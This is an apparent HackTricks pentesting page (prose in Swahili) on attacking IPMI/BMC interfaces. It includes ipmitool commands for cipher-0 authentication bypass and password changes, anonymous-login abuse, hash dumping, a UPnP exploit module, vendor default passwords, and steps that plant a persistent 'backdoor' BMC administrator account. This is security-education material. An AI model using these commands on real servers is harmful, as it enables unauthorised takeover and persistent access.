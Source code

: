 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Deepen your expertise in **Mobile Security** with 8kSec Academy. Master iOS and Android security through our self-paced courses and get certified:

{% embed url="https://academy.8ksec.io/" %}


## Basic Information

### **Overview of IPMI**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** inatoa njia iliyoandikwa kwa usimamizi wa mbali na ufuatiliaji wa mifumo ya kompyuta, bila kujali mfumo wa uendeshaji au hali ya nguvu. Teknolojia hii inawawezesha wasimamizi wa mifumo kusimamia mifumo kwa mbali, hata wakati zimezimwa au hazijajibu, na ni muhimu hasa kwa:

- Mipangilio ya awali ya OS
- Usimamizi wa kuzima nguvu
- Kupona kutoka kwa kushindwa kwa mfumo

IPMI ina uwezo wa kufuatilia joto, voltages, kasi za mashabiki, na vyanzo vya nguvu, pamoja na kutoa taarifa za hesabu, kupitia kumbukumbu za vifaa, na kutuma arifa kupitia SNMP. Muhimu kwa uendeshaji wake ni chanzo cha nguvu na muunganisho wa LAN.

Tangu ilipoanzishwa na Intel mwaka 1998, IPMI imeungwa mkono na wauzaji wengi, ikiongeza uwezo wa usimamizi wa mbali, hasa na msaada wa toleo la 2.0 kwa serial juu ya LAN. Vipengele muhimu ni pamoja na:

- **Baseboard Management Controller (BMC):** Kichakataji kikuu cha micro kwa shughuli za IPMI.
- **Communication Buses and Interfaces:** Kwa mawasiliano ya ndani na nje, ikiwa ni pamoja na ICMB, IPMB, na interfaces mbalimbali za muunganisho wa ndani na mtandao.
- **IPMI Memory:** Kwa kuhifadhi kumbukumbu na data.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Default Port**: 623/UDP/TCP (Kawaida iko kwenye UDP lakini inaweza pia kuwa inafanya kazi kwenye TCP)

## Enumeration

### Discovery
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
Unaweza **kutambua** **toleo** kwa kutumia:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI Vulnerabilities

Katika eneo la IPMI 2.0, kasoro kubwa ya usalama iligunduliwa na Dan Farmer, ikifunua udhaifu kupitia **cipher type 0**. Udhaifu huu, ulioandikwa kwa undani katika [utafiti wa Dan Farmer](http://fish2.com/ipmi/cipherzero.html), unaruhusu ufikiaji usioidhinishwa kwa kutumia nenosiri lolote ikiwa mtumiaji halali anashambuliwa. Udhaifu huu ulipatikana katika BMC mbalimbali kutoka kwa watengenezaji kama HP, Dell, na Supermicro, ukionyesha tatizo lililoenea katika utekelezaji wote wa IPMI 2.0.

### **IPMI Authentication Bypass via Cipher 0**

Ili kugundua kasoro hii, skana ya ziada ya Metasploit ifuatayo inaweza kutumika:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
Kutatua kasoro hii kunawezekana kwa kutumia `ipmitool`, kama inavyoonyeshwa hapa chini, ikiruhusu orodha na mabadiliko ya nywila za watumiaji:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP Uthibitisho wa Ujumbe wa Mbali wa Nywila ya Hashi**

Ushirikiano huu unaruhusu upatikanaji wa nywila za hash zilizotiwa chumvi (MD5 na SHA1) kwa jina lolote lililopo. Ili kujaribu ushirikiano huu, Metasploit inatoa moduli:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI Anonymous Authentication**

Mipangilio ya default katika BMC nyingi inaruhusu ufikiaji wa "anonymous", unaojulikana kwa nywila na jina la mtumiaji zisizo na thamani. Mipangilio hii inaweza kutumika kubadilisha nywila za akaunti za watumiaji waliopewa jina kwa kutumia `ipmitool`:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI Clear-text Passwords**

Chaguo muhimu katika muundo wa IPMI 2.0 kinahitaji uhifadhi wa nywila za wazi ndani ya BMCs kwa madhumuni ya uthibitishaji. Uhifadhi wa nywila hizi na Supermicro katika maeneo kama `/nv/PSBlock` au `/nv/PSStore` kunaibua wasiwasi mkubwa wa usalama:
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP Uthibitisho wa Ukatili**

Kuongezwa kwa msikilizaji wa UPnP SSDP katika firmware ya IPMI ya Supermicro, hasa kwenye bandari ya UDP 1900, kunaingiza hatari kubwa ya usalama. Ukatili katika Intel SDK kwa ajili ya vifaa vya UPnP toleo 1.3.1, kama ilivyoelezwa na [kufichuliwa kwa Rapid7](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play), kunawezesha ufikiaji wa mizizi kwa BMC:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP inabadilisha nenosiri la default** kwa bidhaa yake ya **Integrated Lights Out (iLO)** wakati wa utengenezaji. Praktika hii inatofautiana na wazalishaji wengine, ambao huwa wanatumia **akili za default zisizobadilika**. Muhtasari wa majina ya watumiaji na nenosiri za default kwa bidhaa mbalimbali unapatikana kama ifuatavyo:

- **HP Integrated Lights Out (iLO)** inatumia **mfuatano wa herufi 8 ulioandaliwa kiwandani** kama nenosiri lake la default, ikionyesha kiwango cha juu cha usalama.
- Bidhaa kama **iDRAC ya Dell, IMM ya IBM**, na **Meneja wa Usimamizi wa Kijijini wa Fujitsu** zinatumia nenosiri rahisi kukisia kama "calvin", "PASSW0RD" (ikiwa na sifuri), na "admin" mtawalia.
- Vivyo hivyo, **Supermicro IPMI (2.0), Oracle/Sun ILOM**, na **ASUS iKVM BMC** pia zinatumia akili rahisi za default, ambapo "ADMIN", "changeme", na "admin" zinatumika kama nenosiri zao.

## Accessing the Host via BMC

Upatikanaji wa kiutawala kwa Msimamizi wa Bodi ya Msingi (BMC) unafungua njia mbalimbali za kufikia mfumo wa uendeshaji wa mwenyeji. Njia rahisi ni kutumia kazi ya Kivinjari, Video, Panya (KVM) ya BMC. Hii inaweza kufanywa kwa kuanzisha upya mwenyeji hadi kwenye shell ya root kupitia GRUB (ukitumia `init=/bin/sh`) au kuanzisha kutoka kwa CD-ROM ya virtual iliyowekwa kama diski ya kuokoa. Njia hizi zinaruhusu kudhibiti moja kwa moja diski ya mwenyeji, ikiwa ni pamoja na kuingiza backdoors, kutoa data, au hatua zozote zinazohitajika kwa tathmini ya usalama. Hata hivyo, hii inahitaji kuanzisha upya mwenyeji, ambayo ni hasara kubwa. Bila kuanzisha upya, kufikia mwenyeji anayekimbia ni ngumu zaidi na inategemea usanidi wa mwenyeji. Ikiwa console ya kimwili au serial ya mwenyeji inaendelea kuingia, inaweza kuchukuliwa kwa urahisi kupitia kazi za KVM za BMC au serial-over-LAN (sol) kupitia `ipmitool`. Kuchunguza matumizi ya rasilimali za vifaa vilivyoshirikiwa, kama vile basi ya i2c na chip ya Super I/O, ni eneo linalohitaji uchunguzi zaidi.

## Introducing Backdoors into BMC from the Host

Baada ya kuathiri mwenyeji aliye na BMC, **kiolesura cha BMC cha ndani kinaweza kutumika kuingiza akaunti ya mtumiaji ya backdoor**, kuunda uwepo wa kudumu kwenye seva. Shambulio hili linahitaji uwepo wa **`ipmitool`** kwenye mwenyeji aliyeathiriwa na kuanzishwa kwa msaada wa dereva wa BMC. Amri zifuatazo zinaonyesha jinsi akaunti mpya ya mtumiaji inaweza kuingizwa kwenye BMC kwa kutumia kiolesura cha ndani cha mwenyeji, ambacho kinapita hitaji la uthibitisho. Mbinu hii inatumika kwa mifumo mbalimbali ya uendeshaji ikiwa ni pamoja na Linux, Windows, BSD, na hata DOS.
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Panua ujuzi wako katika **Usalama wa Simu** na 8kSec Academy. Master usalama wa iOS na Android kupitia kozi zetu za kujifunza kwa kasi yako na upate cheti:

{% embed url="https://academy.8ksec.io/" %}


{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
